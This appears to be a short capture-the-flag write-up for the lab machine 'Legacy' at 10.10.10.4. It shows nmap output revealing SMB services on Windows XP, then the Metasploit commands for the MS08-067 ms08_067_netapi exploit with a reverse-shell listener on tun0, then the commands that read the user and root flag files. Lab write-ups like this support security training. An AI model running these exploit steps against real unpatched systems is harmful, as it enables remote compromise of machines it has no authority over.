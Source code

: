 

# Nmap Scan Report

- **IP Address:** 10.10.10.4
- **Host is up:** 0.069s latency

---

## Open Ports

| PORT | STATE | SERVICE      | VERSION                   |
|------|-------|--------------|---------------------------|
| 135/tcp | open  | msrpc        | Microsoft Windows RPC     |
| 139/tcp | open  | netbios-ssn  | Microsoft Windows netbios-ssn |
| 445/tcp | open  | microsoft-ds | Windows XP microsoft-ds   |

- **Service Info:** OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

---

## Host Script Results

- **smb2-time:**
  - Protocol negotiation failed (SMB2)

- **smb-os-discovery:**
  - OS: Windows XP (Windows 2000 LAN Manager)
  - Computer name: legacy
  - NetBIOS computer name: LEGACY\x00
  - Workgroup: HTB\x00
  - System time: 2024-06-22T14:34:22+03:00

- **nbstat:**
  - NetBIOS name: LEGACY
  - NetBIOS MAC: 00:50:56:b9:04:ef (VMware)

- **smb-security-mode:**
  - Account used: guest
  - Authentication level: user
  - Challenge response: supported
  - Message signing: disabled (dangerous, but default)

- **clock-skew:**
  - Mean: 5d00h20m54s
  - Deviation: 2h07m16s
  - Median: 4d22h50m54s

---

Nmap done: 1 IP address (1 host up) scanned in 25.06 seconds

---

### Vuln MS08-067 Microsoft Server Service Relative Path Stack Corruption


```bash
	msfconsole
	use exploit/windows/smb/ms08_067_netapi
	set rhosts {IP}
	set lhost tun0
	exploit
```



#### FILE flag root.txt dan user.txt

###### user.txt 
	C:\Documents and Settings\john\Desktop> type user.txt

###### root.txt
	C:\Documents and Settings\Administrator\Desktop> type root.txt

